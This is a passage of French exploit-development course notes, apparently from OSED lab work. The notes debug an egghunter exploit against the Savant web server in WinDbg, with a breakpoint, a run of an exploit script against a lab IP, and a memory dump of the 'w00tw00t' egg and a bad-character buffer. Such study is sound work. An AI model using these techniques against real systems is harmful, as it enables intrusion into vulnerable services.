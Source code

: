 On positionne le point d'arrêt sur `POP EAX` et on relance l'exécution :

```powershell
#
0:009> bp 0x418674
*** WARNING: Unable to verify checksum for C:\Savant\Savant.exe
0:009> bl
     0 d Enable Clear  00000000 e 1 0001 (0001)  0:****
     1 e Disable Clear  00418674     0001 (0001)  0:**** Savant+0x18674
0:009> g
```

Puis on relance l'exploit :

```powershell
┌──(kali㉿kali)-[/media/…/os/exp-301-osed/cours/cours6]
└─$ python3 egg_v11.py 192.168.234.10
Sending buffer
Done!
```

Le point d'arrêt est atteint. On cherche manuellement notre *egg* avec WinDBG. On le trouve à l'adresse `001e5b2e` et on affiche son contenu :

```powershell
Breakpoint 1 hit
eax=00000000 ebx=001e5778 ecx=0000000e edx=77841670 esi=001e5778 edi=0041703c
eip=00418674 esp=0455ea2c ebp=41414141 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
Savant+0x18674:
00418674 58              pop     eax
#
0:004> s -a 0x0 L?80000000 w00tw00t
001e5b2e  77 30 30 74 77 30 30 74-00 01 02 03 04 05 06 07  w00tw00t........
#
0:004> db 001e5b2e L110
001e5b2e  77 30 30 74 77 30 30 74-00 01 02 03 04 05 06 07  w00tw00t........
001e5b3e  08 09 0a 0b 0c 0d 0e 0f-10 11 12 13 14 15 16 17  ................
001e5b4e  18 19 1a 1b 1c 1d 1e 1f-20 21 22 23 24 25 26 27  ........ !"#$%&'
001e5b5e  28 29 2a 2b 2c 2d 2e 2f-30 31 32 33 34 35 36 37  ()*+,-./01234567
001e5b6e  38 39 3a 3b 3c 3d 3e 3f-40 41 42 43 44 45 46 47  89:;<=>?@ABCDEFG
001e5b7e  48 49 4a 4b 4c 4d 4e 4f-50 51 52 53 54 55 56 57  HIJKLMNOPQRSTUVW
001e5b8e  58 59 5a 5b 5c 5d 5e 5f-60 61 62 63 64 65 66 67  XYZ[\]^_`abcdefg
001e5b9e  68 69 6a 6b 6c 6d 6e 6f-70 71 72 73 74 75 76 77  hijklmnopqrstuvw
001e5bae  78 79 7a 7b 7c 7d 7e 7f-80 81 82 83 84 85 86 87  xyz{|}~.........
001e5bbe  88 89 8a 8b 8c 8d 8e 8f-90 91 92 93 94 95 96 97  ................
001e5bce  98 99 9a 9b 9c 9d 9e 9f-a0 a1 a2 a3 a4 a5 a6 a7  ................
001e5bde  a8 a9 aa ab ac ad ae af-b0 b1 b2 b3 b4 b5 b6 b7  ................
001e5bee  b8 b9 ba bb bc bd be bf-c0 c1 c2 c3 c4 c5 c6 c7  ................
001e5bfe  c8 c9 ca cb cc cd ce cf-d0 d1 d2 d3 d4 d5 d6 d7  ................
001e5c0e  d8 d9 da db dc dd de df-e0 e1 e2 e3 e4 e5 e6 e7  ................
001e5c1e  e8 e9 ea eb ec ed ee ef-f0 f1 f2 f3 f4 f5 f6 f7  ................
001e5c2e  f8 f9 fa fb fc fd fe ff-44 44 44 44 44 44 44 44  ........DDDDDDDD
```
